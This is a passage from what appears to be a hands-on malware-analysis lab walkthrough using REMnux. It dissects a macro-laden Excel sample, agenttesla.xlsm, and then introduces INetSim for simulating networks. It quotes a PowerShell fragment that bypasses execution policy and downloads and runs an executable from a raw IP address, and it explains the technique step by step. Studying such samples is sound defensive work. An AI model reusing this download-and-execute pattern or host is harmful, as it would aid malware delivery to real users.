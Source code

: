 - `Bypass` tells PowerShell to **temporarily ignore all policy restrictions**.
- This allows the script to execute **without user prompts or interference**.

#### 🌐 `Invoke-WebRequest`
This cmdlet is used to **download content** from the internet.

- It’s similar to `curl` or `wget` in Linux.
- Commonly abused in malicious scripts to fetch **remote payloads**.

#### 📎 `-Uri`
Specifies the **URL** from which the file should be downloaded.

```powershell
-Uri http://193.203.203.67/rt/Doc-3737122pdf.exe
```

To summarize, when the document `agenttesla.xlsm` is opened, a Macro will run! This Macro contains a VBA script. The script will run and will be running a PowerShell to download a file named `Doc-3737122pdf.exe` from `http://193.203.203.67/rt/`, save it to a variable $TempFile, then execute or start running the file inside this variable, which is a binary or a .exe file (`Doc-3737122pdf.exe`). This is a usual technique used by threat actors to avoid early detection. Pretty nasty, right?!

Kudos to you for figuring it out!

## Fake Network to Aid Analysis

During dynamic analysis, it is essential to observe the behaviour of potentially malicious software—especially its network activities. There are many approaches to this. We can create a whole infrastructure, a virtual environment with different core machines, and more. Alternatively, there is a tool inside our REMnux VM called **INetSim: Internet Services Simulation Suite**!

We will utilize INetSim's features to simulate a real network in this task.

### Virtual Machines

For this task, we will use two (2) machines. The first is our REMnux machine, which is linked to the Machine Access Task. The second VM is the AttackBox. To start the AttackBox, click the blue **Start AttackBox** button at the top of the page. Do note that you can easily switch between boxes by clicking on them. See the highlighted box in the below image.

<img src="./Cybersecurity_101_screenshots/remnux03.jpg" width="800" alt="Screenshot 3"> <br>
